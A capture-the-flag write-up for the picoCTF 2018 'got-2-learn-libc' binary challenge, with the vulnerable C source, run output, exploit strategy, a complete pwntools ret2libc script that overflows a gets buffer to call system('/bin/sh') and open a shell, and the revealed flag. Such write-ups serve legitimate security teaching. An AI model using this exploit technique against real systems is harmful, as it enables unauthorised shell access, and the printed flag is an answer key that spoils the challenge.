

Lets break down the source if we can

### vuln.c

Three very important pieaces of information are here. Hints at our buffersize, a /bin/sh string that we can use to spawn a shell and the vulerable gets function we will use to fill the buffer and control the return pointer
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

char useful_string[16] = "/bin/sh"; /* Maybe this can be used to spawn a shell? */


void vuln(){
  char buf[BUFSIZE];
  puts("Enter a string:");
  gets(buf);
  puts(buf);
  puts("Thanks! Exiting now...");
}

```

This section contains some helpful addresses that we might be able to use to determine the address of libc which we can use to find the system address and use the /bin/sh string above to spawn a shell.

```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  puts("Here are some useful addresses:\n");

  printf("puts: %p\n", puts);
  printf("fflush %p\n", fflush);
  printf("read: %p\n", read);
  printf("write: %p\n", write);
  printf("useful_string: %p\n", useful_string);

  printf("\n");
  
  vuln();

  
  return 0;
}
```

Lets run the program and see what happens

```
/ctf_writeups/pico2018/binary/got-2-learn-libc# ./vuln
Here are some useful addresses:

puts: 0xf7e100a0
fflush 0xf7e0e4b0
read: 0xf7e8eea0
write: 0xf7e8ef40
useful_string: 0x56586030

Enter a string:
test
test
Thanks! Exiting now...
~/ctf_writeups/pico2018/binary/got-2-learn-libc# 
```

The binary is nice enough to give us two things that would help us a great deal: The address of puts and the address of /bin/sh

## Strategy

1. Find the libc offset for puts and system.
2. Find the buffer amount required to control the return pointer in gets
3. Build a payload consisting of buffer+main. This will allow us to gather the address output the binary gives us and store them in variables to use in the next payload.
4. Use our new variables to calculate the libc base
5. Build a payload consisting of buffer + system + main + /bin/sh string
6. Send the payload and spawn a shell

We can find the local libc by using **ldd ./vuln** which gives the following output

```
~/ctf_writeups/pico2018/binary/got-2-learn-libc# ldd ./vuln
	linux-gate.so.1 (0xf7fa7000)
	libc.so.6 => /lib32/libc.so.6 (0xf7da8000)
	/lib/ld-linux.so.2 (0xf7fa9000)
~/ctf_writeups/pico2018/binary/got-2-learn-libc# 
```

Our libc is /lib32/libc.so.6 which we can load using pwntools and pull the addresses from the symbols

The strategy did not work due to ASLR and the randomizing of the binary addresses which means we cant call main the way we intended. I noticed we are given the addresses from the binary before our input so we can collect that data then craft 1 payload instead of 2. The way we'll do this is take the puts address given to us and subtract the puts offset located in the libc binary used. This will give us the libc base. Then we can add the base and the system offset together from libc and find our the binary address for system. Combine that with the useful string and we can pop a shell and cat the flag.

## Strategy *Updated*

1. Find the libc offset for puts and system.
2. Find the buffer amount required to control the return pointer in gets
3. Collect the puts and /bin/sh addresses the binary gives us. Subtract puts - puts libc offset to gain libc base. Add libc base to system offset.
4. Build a payload consisting of buffer + system + any return address(i used 'AAAA') + useful_string. This will pop a shell and allow us to cat the flag

### apple.py

```python
#!/usr/bin/env python

from pwn import *
import sys

#context.log_level = 'critical'

#load our addresses and offsets
e = ELF('./vuln')
libc = ELF('/lib32/libc.so.6')
system_off = libc.symbols['system']
puts_off = libc.symbols['puts']

offset = system_off - puts_off

#find buffer amount
'''
pwn cyclic 172 | strace ./vuln
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x62616170} ---
+++ killed by SIGSEGV +++
Segmentation fault
pwn cyclic -l 0x62616170
160
'''
buf = 160

argc = len(sys.argv)

if argc > 1:
	from getpass import getpass
	ssh = ssh(host='2018shell.picoctf.com', user='ems3t', password=getpass())
	p = ssh.process('vuln', cwd='/problems/got-2-learn-libc_0_4c2b153da9980f0b2d12a128ff19dc3f')
else:
	p = process('./vuln')

p.recvuntil('puts: ')
puts = int(p.recv(10), 16)
p.recvuntil('useful_string: ')
shell = int(p.recv(10), 16)

#calculate libc base
system = offset + puts

log.info(hex(shell))
log.info(hex(system))

sleep(1)
#build second payload
payload = ''
payload+= 'A'*buf
payload+= p32(system)
payload+= 'AAAA'
payload+= p32(shell)

#send payload and set interactive mode
p.sendline(payload)
p.interactive()
```

<details>
	<summary>Flag</summary>

picoCTF{syc4al1s_4rE_uS3fUl_b61928e8}
</details>